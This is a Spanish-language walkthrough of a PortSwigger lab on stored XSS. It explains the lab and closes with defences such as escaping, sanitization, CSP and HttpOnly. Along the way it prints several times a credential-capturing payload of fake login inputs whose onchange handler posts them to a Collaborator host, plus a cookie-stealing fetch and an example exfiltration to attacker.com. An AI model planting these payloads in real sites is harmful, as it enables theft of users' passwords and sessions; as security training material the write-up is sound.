



# PortSwigger Web Security Academy — Lab 38 XSS

# Explotar Cross-Site Scripting para capturar contraseñas

**Categoría:** Cross-site scripting / Exploiting XSS  
**Tipo de vulnerabilidad:** Stored XSS / XSS almacenado  
**Objetivo del laboratorio:** Exfiltrar el usuario y la contraseña de la víctima usando XSS almacenado, y después iniciar sesión con esas credenciales.  
**URL del laboratorio:** `https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords`

---

## 1. Enunciado del laboratorio

El laboratorio indica lo siguiente:

> Este laboratorio contiene una vulnerabilidad de XSS almacenado en la funcionalidad de comentarios del blog. Un usuario víctima simulado visualiza todos los comentarios después de que se publican.
>
> Para resolver el laboratorio, debes explotar la vulnerabilidad para exfiltrar el nombre de usuario y la contraseña de la víctima, y luego usar estas credenciales para iniciar sesión en su cuenta.
>
> Para evitar que la plataforma Academy se utilice para atacar a terceros, el firewall bloquea las interacciones entre los laboratorios y sistemas externos arbitrarios. Para resolver el laboratorio, debes usar el servidor público por defecto de Burp Collaborator.

Esto ya nos da varias pistas importantes.

Primero, no estamos ante un simple `alert(1)`. En laboratorios anteriores bastaba con demostrar ejecución JavaScript. Aquí el objetivo es explotar esa ejecución para obtener un dato sensible real: las credenciales de la víctima.

Segundo, la vulnerabilidad es **stored XSS**, no reflected XSS. Esto cambia completamente el modelo mental del ataque. No necesitamos enviar a la víctima una URL especialmente construida. Basta con dejar el payload almacenado en un comentario. Cuando la víctima visite el post, el servidor recuperará el comentario desde la base de datos, lo insertará en la página y el navegador de la víctima ejecutará el código.

Tercero, el laboratorio fuerza el uso de **Burp Collaborator**. Esto significa que la exfiltración de datos debe salir hacia un dominio controlado por Burp, normalmente con formato parecido a:

```text
0qrsa8cnakwt7sp7aaatck2c63cu0ko9.oastify.com
```

Ese dominio funciona como un servidor externo controlado por nosotros dentro del entorno del laboratorio. El navegador de la víctima enviará una petición hacia ese dominio, y nosotros veremos esa interacción en Burp Collaborator.

---

## 2. Diferencia entre este laboratorio y el anterior de robo de cookies

En el laboratorio anterior de explotación de XSS para robar cookies, el objetivo era leer `document.cookie` y enviarlo al Collaborator. El payload típico era algo parecido a:

```html
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
});
</script>
```

Ese enfoque funciona si la cookie de sesión es accesible desde JavaScript. Es decir, funciona si la cookie **no** tiene el atributo `HttpOnly`.

En este laboratorio la idea es distinta. Aquí no robamos una cookie ya existente. En su lugar, provocamos que el navegador de la víctima nos envíe las credenciales que el usuario introduce o que el navegador autocompleta en unos campos de formulario.

La diferencia es importante:

| Técnica | Qué roba | Depende de `document.cookie` | Afectada por `HttpOnly` |
|---|---|---:|---:|
| Robo de cookies | Cookie de sesión | Sí | Sí |
| Captura de credenciales | Usuario y contraseña | No | No directamente |

Este laboratorio enseña algo muy real: aunque `HttpOnly` impida leer cookies con JavaScript, un XSS sigue siendo peligroso. Un script ejecutándose en el navegador de la víctima puede manipular la página, insertar formularios, leer valores de inputs, capturar pulsaciones o exfiltrar datos introducidos por el usuario.

Por eso XSS no debe verse como “solo un alert”. XSS significa que un atacante consigue ejecutar código en el navegador de otra persona dentro del origen legítimo de la aplicación.

---

## 3. Qué es Stored XSS en este caso

Stored XSS significa que el payload queda guardado en el servidor. En este laboratorio, el punto vulnerable está en los comentarios del blog.

El flujo es:

```text
Atacante publica comentario malicioso
        ↓
Servidor guarda el comentario en base de datos
        ↓
Víctima visita el post
        ↓
Servidor hace SELECT de comentarios
        ↓
Servidor renderiza el comentario malicioso dentro del HTML
        ↓
Navegador de la víctima interpreta el HTML
        ↓
Se crean los inputs maliciosos
        ↓
El navegador/víctima rellena o autocompleta los datos
        ↓
El evento onchange envía las credenciales al Collaborator
```

La parte clave es que el ataque no depende de una URL maliciosa. El payload ya está plantado en la aplicación. Cada vez que alguien visita la página donde está el comentario, el payload vuelve a aparecer.

Esto es lo que hace que el stored XSS sea especialmente peligroso:

- El ataque es persistente.
- No requiere que la víctima haga clic en un enlace externo.
- Se ejecuta dentro del dominio legítimo.
- Puede afectar a cualquier usuario que visualice el contenido infectado.
- Si lo visualiza un administrador, el impacto puede ser crítico.

En este laboratorio, PortSwigger simula un usuario víctima que revisa los comentarios después de publicarlos. Esa víctima introduce o tiene autocompletadas unas credenciales, y el payload las envía al servidor de Collaborator.

---

## 4. Vista inicial del laboratorio

Al iniciar el laboratorio, se abre una página de blog de Web Security Academy. En tu caso, la página tenía este aspecto:



La página muestra un blog normal. Arriba aparece el título del laboratorio:

```text
Exploiting cross-site scripting to capture passwords
```

También vemos enlaces como:

```text
Home | My account
```

Eso indica que existe una funcionalidad de cuenta y que, una vez tengamos credenciales válidas, podremos iniciar sesión y acceder al panel de usuario.

La vulnerabilidad no está necesariamente en la portada. El enunciado nos dice que está en la funcionalidad de comentarios del blog. Por tanto, el camino práctico es entrar en un post y buscar el formulario de comentarios.

---

## 5. Por qué el formulario de comentarios es el punto de entrada

Los formularios de comentarios son un punto clásico para stored XSS porque reciben contenido del usuario y lo muestran después a otros usuarios.

Un comentario normal puede tener campos como:

```text
Comment
Name
Email
Website
```

En un diseño seguro, el servidor debería tratar todo eso como datos no confiables. Si el usuario escribe:

```html
<script>alert(1)</script>
```

la aplicación debería convertirlo en texto inofensivo o eliminarlo, no renderizarlo como HTML activo.

Pero en este lab la aplicación permite que ciertos fragmentos HTML se guarden y se rendericen. Eso permite insertar inputs directamente en el comentario.

La diferencia con otros labs de comentarios es que aquí no buscamos solo ejecutar JavaScript inmediatamente. Buscamos plantar una pequeña “trampa” de formulario en la página.

---

## 6. Payload oficial del laboratorio

El payload usado es:

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

Sustituyendo `BURP-COLLABORATOR-SUBDOMAIN` por el dominio real de Collaborator que nos da Burp, queda así:

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://0qrsa8cnakwt7sp7aaatck2c63cu0ko9.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

Este payload no usa una etiqueta `<script>`. Usa directamente HTML con un manejador de evento inline (`onchange`). Esto es importante porque demuestra que XSS no siempre significa inyectar una etiqueta script. También puede consistir en insertar elementos HTML con eventos JavaScript.

---

## 7. Despiece del payload línea por línea

Vamos a analizarlo sin saltarnos nada.

### 7.1. Primer input

```html
<input name=username id=username>
```

Esto crea un campo de texto normal.

Tiene dos atributos importantes:

```html
name=username
id=username
```

El atributo `name` identifica el campo en formularios. El atributo `id` lo hace accesible desde JavaScript como elemento del DOM.

En navegadores modernos, un elemento con `id="username"` puede quedar disponible como una referencia global llamada `username`. Por eso luego se puede usar:

```javascript
username.value
```

Ese valor representa lo que haya escrito o autocompletado el navegador en el campo de usuario.

Visualmente, este input se renderiza como una caja de texto vacía dentro del comentario.

### 7.2. Segundo input

```html
<input type=password name=password onchange="...">
```

Esto crea un campo de contraseña.

La parte:

```html
type=password
```

hace que el navegador muestre el contenido oculto, normalmente con puntos o asteriscos.

La parte más importante es:

```html
onchange="..."
```

Ese atributo define código JavaScript que se ejecutará cuando cambie el valor del campo.

### 7.3. Qué es `onchange`

`onchange` es un manejador de evento. Se dispara cuando el valor de un elemento cambia y el cambio queda confirmado. En un input de texto o password, normalmente ocurre cuando:

- el usuario escribe algo y luego sale del campo;
- el navegador autocompleta el campo y el cambio se registra;
- se produce una modificación del valor que el navegador considera cambio.

En este laboratorio, el usuario víctima simulado acaba provocando que el evento se dispare. Cuando eso ocurre, se ejecuta el JavaScript del atributo.

### 7.4. Condición `if(this.value.length)`

```javascript
if(this.value.length)
```

Dentro del atributo `onchange`, `this` hace referencia al elemento que disparó el evento. En este caso, `this` es el input de contraseña.

Por tanto:

```javascript
this.value
```

es el valor de la contraseña.

Y:

```javascript
this.value.length
```

es la longitud de esa contraseña.

La condición comprueba que el campo no esté vacío.

Si `this.value.length` es mayor que 0, se ejecuta el `fetch`. Si está vacío, no se envía nada.

Esto evita enviar peticiones basura con contraseñas vacías.

### 7.5. `fetch()`

```javascript
fetch('https://0qrsa8cnakwt7sp7aaatck2c63cu0ko9.oastify.com', {
  method:'POST',
  mode: 'no-cors',
  body:username.value+':'+this.value
});
```

`fetch()` es una API del navegador para hacer peticiones HTTP desde JavaScript.

En este caso hace una petición a nuestro dominio de Burp Collaborator.

La petición usa método POST:

```javascript
method:'POST'
```

Esto permite enviar datos en el cuerpo de la petición.

### 7.6. `body: username.value + ':' + this.value`

```javascript
body:username.value+':'+this.value
```

Esta línea construye el cuerpo de la petición.

Si el input `username` contiene:

```text
administrator
```

Y el input `password` contiene:

```text
0kykwpkzoftwl2z99mlt
```

entonces el cuerpo enviado será:

```text
administrator:0kykwpkzoftwl2z99mlt
```

El separador `:` no tiene ningún misterio. Solo ayuda a distinguir usuario y contraseña en una sola línea.

---

## 8. Qué hace realmente `mode: 'no-cors'`

Esta parte suele generar confusión, así que conviene explicarla con cuidado.

El payload contiene:

```javascript
mode: 'no-cors'
```

Mucha gente interpreta esto como “evita CORS” o “salta CORS”. No es exactamente eso.

`no-cors` significa que el navegador hará una petición de modo opaco. El script no podrá leer la respuesta del servidor externo, pero la petición sí se enviará.

En este ataque no necesitamos leer la respuesta. Solo necesitamos que el navegador de la víctima mande los datos a Collaborator.

El flujo es:

```text
Navegador de la víctima
        ↓ POST con usuario:password
Burp Collaborator
        ↓ registra la interacción
Nosotros vemos el body desde Burp
```

No necesitamos hacer esto:

```javascript
const r = await fetch(...);
const text = await r.text();
```

Eso sería leer la respuesta. No nos hace falta.

### CORS protege la lectura, no siempre el envío

CORS está pensado para impedir que un script de un origen lea respuestas sensibles de otro origen sin permiso.

Ejemplo peligroso sin CORS:

```javascript
fetch('https://banco.com/datos')
  .then(r => r.text())
  .then(data => fetch('https://attacker.com', { method:'POST', body:data }));
```

Si el usuario está logueado en `banco.com`, su navegador puede enviar cookies al banco. Sin CORS, el script malicioso podría leer la respuesta del banco. Eso sería crítico.

Pero en nuestro caso no queremos leer nada del Collaborator. Queremos enviarle datos. Por eso `no-cors` es suficiente.

Resumen:

```text
CORS bloquea leer respuestas cross-origin.
No impide necesariamente enviar una petición cross-origin.
Para exfiltrar datos, basta con que la petición salga.
```

---

## 9. Qué es Burp Collaborator y por qué lo usamos

Burp Collaborator es un servidor controlado por Burp Suite para detectar interacciones externas.

En labs como este, PortSwigger bloquea conexiones hacia dominios arbitrarios para evitar abusos. Por eso hay que usar el Collaborator público permitido.

Cuando copiamos un payload de Collaborator, Burp nos da un subdominio único:

```text
0qrsa8cnakwt7sp7aaatck2c63cu0ko9.oastify.com
```

Ese subdominio está asociado a nuestra sesión de Burp. Si el navegador de la víctima hace una petición hacia él, Burp Collaborator la registra.

Después pulsamos:

```text
Poll now
```

Y Burp nos muestra interacciones DNS/HTTP recibidas.

En este laboratorio buscamos una interacción HTTP con un body parecido a:

```text
administrator:0kykwpkzoftwl2z99mlt
```

---

## 10. Paso práctico 1 — abrir el laboratorio

Entramos en el laboratorio:

```text
https://0a65002404d5445180e112d90091004c.web-security-academy.net/
```

La página inicial es un blog. Como se ve en la imagen 1, el laboratorio tiene navegación normal y un enlace a `My account`.


El enunciado ya nos dice que el punto vulnerable está en los comentarios. Por eso entramos en un post usando `View post` y bajamos hasta `Leave a comment`.

---

## 11. Paso práctico 2 — preparar Burp Collaborator

Abrimos Burp Suite Professional.

Vamos a la pestaña:

```text
Collaborator
```

Pulsamos:

```text
Copy to clipboard
```

Burp nos copia un dominio único, por ejemplo:

```text
0qrsa8cnakwt7sp7aaatck2c63cu0ko9.oastify.com
```

Ese dominio será nuestro receptor de credenciales.

Es importante usar exactamente el dominio que Burp nos da en esa sesión. Si usamos otro dominio externo, el firewall del laboratorio puede bloquear la interacción.

---

## 12. Paso práctico 3 — publicar el comentario malicioso

En el campo `Comment` pegamos el payload completo:

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://0qrsa8cnakwt7sp7aaatck2c63cu0ko9.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

En los demás campos podemos poner valores normales:

```text
Name: test
Email: test@gmail.com
Website: http://test.com
```

El campo importante es `Comment`, porque ahí se inserta el HTML malicioso.

Al publicar el comentario, el servidor lo guarda.

---

## 13. Paso práctico 4 — comprobar que el comentario se renderiza

Al volver al post, el comentario aparece en la página. En tu caso se veía como dos campos de entrada renderizados dentro del comentario:



Esta imagen es muy importante porque confirma que la aplicación no ha tratado el contenido como texto plano. Si hubiese escapado correctamente el HTML, veríamos algo como texto literal:

```html
<input name=username id=username>
```

Pero no ocurre eso. El navegador lo interpreta como HTML real y crea inputs reales.

Eso confirma el stored XSS.

---

## 14. Qué está pasando en el navegador de la víctima

Cuando el usuario víctima visita el post, su navegador recibe el comentario malicioso y lo interpreta.

El DOM contiene ahora algo equivalente a:

```html
<input name="username" id="username">
<input type="password" name="password" onchange="if(this.value.length)fetch('https://0qrsa8cnakwt7sp7aaatck2c63cu0ko9.oastify.com',{method:'POST',mode:'no-cors',body:username.value+':'+this.value});">
```

La víctima puede no entender lo que está viendo, pero el navegador sí lo interpreta como formulario.

Además, los navegadores y gestores de contraseñas pueden autocompletar campos que se llaman `username` y `password`. No siempre ocurre igual en todos los navegadores, pero el laboratorio está diseñado para que el usuario víctima simulado introduzca o complete esos valores.

Cuando el valor del campo password cambia, se ejecuta el `onchange`.

El evento hace:

```javascript
if(this.value.length)
```

Si la contraseña no está vacía, ejecuta:

```javascript
fetch('https://0qrsa8cnakwt7sp7aaatck2c63cu0ko9.oastify.com', {
  method:'POST',
  mode:'no-cors',
  body: username.value + ':' + this.value
});
```

La víctima no ve necesariamente nada especial. Pero Burp Collaborator recibe la petición.

---

## 15. Paso práctico 5 — recibir las credenciales en Collaborator

Volvemos a Burp Collaborator y pulsamos:

```text
Poll now
```

Debería aparecer una interacción HTTP.

La petición será similar a:

```http
POST / HTTP/1.1
Host: 0qrsa8cnakwt7sp7aaatck2c63cu0ko9.oastify.com
Connection: keep-alive
Content-Length: 34
sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-platform: "Linux"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: https://0a6d00e404085d8e808cf8c000940008.web-security-academy.net
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: empty
Referer: https://0a6d00e404085d8e808cf8c000940008.web-security-academy.net/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en-US,en;q=0.9

administrator:0kykwpkzoftwl2z99mlt
```

La línea crítica está al final:

```text
administrator:0kykwpkzoftwl2z99mlt
```

Ahí tenemos:

```text
Usuario: administrator
Contraseña: 0kykwpkzoftwl2z99mlt
```

---

## 16. Análisis de la petición recibida

La petición recibida por Collaborator contiene varios detalles interesantes.

### 16.1. `User-Agent: Mozilla/5.0 (Victim)`

```http
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 ... Chrome/125.0.0.0
```

Esto indica que la petición no la ha hecho nuestro navegador, sino el navegador de la víctima simulada.

### 16.2. `Origin`

```http
Origin: https://0a6d00e404085d8e808cf8c000940008.web-security-academy.net
```

El origen es el dominio vulnerable del laboratorio. Esto confirma que el script se ejecutó desde la aplicación vulnerable.

### 16.3. `Sec-Fetch-Site: cross-site`

```http
Sec-Fetch-Site: cross-site
```

La petición va desde el sitio del laboratorio hacia un dominio distinto (`oastify.com`). Por eso es cross-site.

### 16.4. `Sec-Fetch-Mode: no-cors`

```http
Sec-Fetch-Mode: no-cors
```

Esto refleja la opción usada en el payload:

```javascript
mode: 'no-cors'
```

### 16.5. Body

```text
administrator:0kykwpkzoftwl2z99mlt
```

Esto es lo que realmente necesitamos para resolver el laboratorio.

---

## 17. Paso práctico 6 — iniciar sesión con las credenciales robadas

Con las credenciales obtenidas:

```text
administrator
0kykwpkzoftwl2z99mlt
```

vamos a:

```text
My account
```

Introducimos:

```text
Username: administrator
Password: 0kykwpkzoftwl2z99mlt
```

Si las credenciales son correctas, accedemos al panel del administrador.

En tu caso, la pantalla final mostraba:



La página indica:

```text
Your username is: administrator
```

Y arriba aparece el laboratorio como resuelto.

---

## 18. Por qué el laboratorio se resuelve al iniciar sesión

El objetivo no era solamente capturar credenciales. PortSwigger valida que realmente has conseguido usarlas.

El flujo de resolución es:

```text
1. Explotas stored XSS
2. Capturas credenciales de la víctima
3. Inicias sesión como esa víctima
4. La plataforma detecta que estás autenticado como administrator
5. El lab pasa a estado Solved
```

Eso demuestra que el ataque ha tenido impacto real: no solo ejecución de JavaScript, sino compromiso de cuenta.

---

## 19. Por qué este ataque puede funcionar incluso con HttpOnly

`HttpOnly` protege cookies contra lectura desde JavaScript.

Una cookie con:

```http
Set-Cookie: session=abc123; HttpOnly; Secure; SameSite=Lax
```

no aparece en:

```javascript
document.cookie
```

Por tanto, un payload como este fallaría:

```javascript
fetch('https://collaborator', { body: document.cookie })
```

Pero este laboratorio no roba cookies. Roba valores de inputs:

```javascript
username.value
this.value
```

`HttpOnly` no impide que JavaScript lea campos del DOM.

Por eso, incluso si la aplicación protege correctamente sus cookies con `HttpOnly`, un XSS sigue pudiendo capturar:

- credenciales escritas;
- tokens visibles en el DOM;
- datos de formularios;
- información sensible renderizada en la página;
- acciones del usuario;
- contenido que el usuario copia o introduce.

La conclusión es clara: `HttpOnly` es necesario, pero no es suficiente para mitigar XSS.

---

## 20. Por qué esto se parece a phishing, pero no es phishing tradicional

Este ataque puede parecer phishing porque se crean campos falsos para capturar credenciales. Pero hay una diferencia crítica.

En phishing tradicional, el atacante suele llevar a la víctima a una web falsa:

```text
https://fake-login.example
```

Aquí no ocurre eso. La víctima está en el dominio legítimo:

```text
https://LAB.web-security-academy.net/
```

El navegador muestra la web real. El payload malicioso está insertado dentro de esa web real debido a stored XSS.

Eso lo hace mucho más peligroso, porque el usuario puede confiar en la página.

El atacante no necesita clonar la web. Usa la propia web vulnerable como plataforma de captura.

---

## 21. Por qué el navegador puede autocompletar esos campos

Los navegadores y gestores de contraseñas reconocen formularios por señales como:

```html
<input name="username" id="username">
<input type="password" name="password">
```

En el payload se usan precisamente nombres semánticos:

```html
name=username
id=username
name=password
type=password
```

Esto aumenta la probabilidad de que el navegador o el usuario víctima rellene los campos.

No es casualidad. El payload está diseñado para parecer un formulario de autenticación.

---

## 22. Por qué `onchange` es una buena elección aquí

Podríamos pensar en otros eventos:

```html
oninput
onkeyup
onblur
onchange
```

`onchange` tiene una ventaja: no dispara una petición por cada tecla. Espera a que el valor cambie y quede confirmado.

Si se usara `oninput`, cada carácter podría enviar una petición distinta:

```text
a
aB
aBc
aBc1
```

Eso sería más ruidoso.

Con `onchange`, normalmente se envía una vez el valor completo.

En un escenario real, un atacante podría hacerlo más sofisticado, pero para el laboratorio `onchange` es suficiente y claro.

---

## 23. Qué pasaría si el usuario no rellena los campos

Si el usuario no escribe nada y el navegador no autocompleta, no se enviaría nada.

Por eso el payload depende de que la víctima interactúe o de que el navegador/gestor de contraseñas autocomplemente.

El laboratorio está diseñado para que la víctima simulada acabe enviando las credenciales. En un entorno real, un atacante podría mejorar el engaño con:

- texto alrededor del formulario;
- estilos CSS para integrarlo visualmente;
- placeholders;
- etiquetas `Username` y `Password`;
- autofocus;
- eventos más agresivos;
- ocultación del formulario original.

Pero el objetivo del lab es entender el mecanismo, no construir una campaña de phishing.

---

## 24. Alternativa menos discreta mencionada por PortSwigger

El enunciado dice que existe una solución alternativa sin Collaborator, pero menos sutil.

Esa alternativa consiste en hacer que el XSS publique las credenciales capturadas como un nuevo comentario en el propio blog.

Conceptualmente sería:

```javascript
fetch('/post/comment', {
  method: 'POST',
  body: 'comment=' + encodeURIComponent(username.value + ':' + password.value)
});
```

El problema es que esto deja las credenciales visibles públicamente en la página.

Comparación:

| Método | Dónde van los datos | Discreción | Evidencia visible |
|---|---|---:|---:|
| Collaborator | Servidor externo controlado por Burp | Alta | Baja |
| Publicar comentario | Mismo blog | Baja | Alta |

La solución con Collaborator es más limpia porque la víctima envía los datos fuera de banda y no deja las credenciales publicadas en la aplicación.

---

## 25. Modelo mental completo del ataque

La forma correcta de entender este laboratorio es con tres actores:

```text
Atacante
Víctima
Aplicación vulnerable
Burp Collaborator
```

El flujo completo es:

```text
[Atacante]
Publica comentario con inputs + onchange
        ↓
[Aplicación vulnerable]
Guarda el comentario en base de datos
        ↓
[Víctima]
Visita el post
        ↓
[Aplicación vulnerable]
Renderiza el comentario guardado
        ↓
[Navegador de la víctima]
Crea los inputs maliciosos
        ↓
[Navegador de la víctima]
Rellena/autocompleta username y password
        ↓
[Evento onchange]
Ejecuta fetch()
        ↓
[Burp Collaborator]
Recibe POST con administrator:password
        ↓
[Atacante]
Lee credenciales en Burp
        ↓
[Atacante]
Inicia sesión como administrator
        ↓
[Lab]
Solved
```

---

## 26. Qué vulnerabilidad exacta tiene la aplicación

La vulnerabilidad no es simplemente “permite comentarios”. La vulnerabilidad real es:

```text
La aplicación inserta contenido controlado por el usuario en el HTML de respuesta sin neutralizarlo correctamente.
```

En otras palabras, permite que el comentario se convierta en DOM activo.

Un comentario debería tratarse como texto, no como HTML.

Si el usuario escribe:

```html
<input name=username>
```

la página debería mostrar literalmente:

```text
<input name=username>
```

No crear un campo real.

Si la aplicación hubiese usado una codificación correcta, el HTML resultante sería:

```html
&lt;input name=username&gt;
```

El navegador mostraría el texto, pero no lo interpretaría como etiqueta.

---

## 27. Por qué `innerHTML` y renderizado inseguro son peligrosos

Aunque no veamos el código fuente del backend, el patrón vulnerable suele equivaler a algo como:

```javascript
commentContainer.innerHTML = userComment;
```

O en backend:

```html
<div class="comment">
  {{ comment }}
</div>
```

sin escape.

Lo correcto sería usar salida escapada o insertar como texto:

```javascript
commentContainer.textContent = userComment;
```

Diferencia:

```javascript
innerHTML = '<input>'
```

crea un input real.

```javascript
textContent = '<input>'
```

muestra texto literal.

---

## 28. Defensas correctas

### 28.1. Escapar salida según contexto

Para comentarios, si solo se permite texto, se debe HTML-encodear todo:

```text
<  → &lt;
>  → &gt;
"  → &quot;
'  → &#x27;
&  → &amp;
```

Esto evita que el navegador interprete etiquetas.

### 28.2. Sanitización HTML robusta

Si la aplicación quiere permitir algo de HTML, debe usar una librería de sanitización fiable y configurada con lista blanca estricta.

Ejemplos de etiquetas potencialmente permitidas:

```html
<b>
<i>
<p>
<br>
```

Pero debería bloquear:

```html
<script>
<input>
iframe
object
svg con eventos
atributos on*
javascript: en URLs
```

### 28.3. CSP

Una Content Security Policy estricta puede reducir impacto:

```http
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'; base-uri 'none'
```

Pero CSP no debe ser la única defensa. El bug principal sigue siendo permitir HTML/JS no confiable.

### 28.4. No permitir eventos inline

Bloquear o eliminar atributos como:

```html
onclick
onchange
onerror
onload
onfocus
```

Los atributos que empiezan por `on` son extremadamente peligrosos cuando vienen de usuarios.

### 28.5. Proteger formularios y gestores de contraseñas

Se pueden usar buenas prácticas como:

```html
autocomplete="off"
```

en ciertos campos sensibles, aunque no debe considerarse una defensa fuerte contra XSS.

La defensa real es impedir el XSS.

### 28.6. Cookies con HttpOnly

Aunque este lab roba contraseñas y no cookies, las cookies de sesión deben tener:

```http
HttpOnly; Secure; SameSite=Lax o Strict
```

Eso reduce el impacto de otros XSS orientados a robar sesión.

---

## 29. Errores conceptuales que este laboratorio corrige

### Error 1: “XSS es solo alert(1)”

No. `alert(1)` es una prueba mínima. El impacto real puede ser:

- robo de sesión;
- robo de credenciales;
- acciones como la víctima;
- lectura de datos del DOM;
- modificación de formularios;
- keylogging;
- phishing dentro del dominio legítimo.

### Error 2: “HttpOnly soluciona XSS”

No. HttpOnly protege cookies frente a `document.cookie`, pero no impide que JavaScript lea inputs, modifique la página o haga acciones autenticadas.

### Error 3: “CORS bloquea la exfiltración”

No necesariamente. CORS bloquea leer respuestas cross-origin. Pero para exfiltrar datos hacia un servidor controlado, basta con enviar una petición.

### Error 4: “Si no hay `<script>`, no hay XSS”

Falso. En este lab no necesitamos `<script>`. Usamos HTML activo con un evento:

```html
<input onchange="fetch(...)">
```

### Error 5: “Stored XSS requiere interacción compleja”

No. Aquí el payload se ejecuta cuando la víctima ve el comentario. La persistencia hace el ataque más efectivo.

---

## 30. Resumen final del laboratorio

En este laboratorio hemos explotado un stored XSS en comentarios para capturar credenciales.

La técnica consiste en insertar un formulario falso en el comentario:

```html
<input name=username id=username>
<input type=password name=password onchange="...">
```

El campo de contraseña tiene un evento `onchange` que, cuando se dispara, envía el contenido de ambos campos a Burp Collaborator:

```javascript
body: username.value + ':' + this.value
```

La víctima simulada visita el post, introduce o autocompleta sus credenciales, y el navegador envía:

```text
administrator:0kykwpkzoftwl2z99mlt
```

Con esas credenciales iniciamos sesión como administrador y resolvemos el laboratorio.

La lección importante es esta:

```text
XSS no es simplemente ejecutar código. XSS es controlar el navegador de otra persona dentro de un origen de confianza.
```

Y si controlas el navegador, puedes capturar datos introducidos por el usuario, incluso si las cookies están protegidas con HttpOnly.

---

## 31. Payload final usado

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://0qrsa8cnakwt7sp7aaatck2c63cu0ko9.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

---

## 32. Credenciales capturadas en el laboratorio

```text
administrator:0kykwpkzoftwl2z99mlt
```

---

## 33. Estado final

Laboratorio resuelto correctamente tras iniciar sesión como:

```text
administrator
```


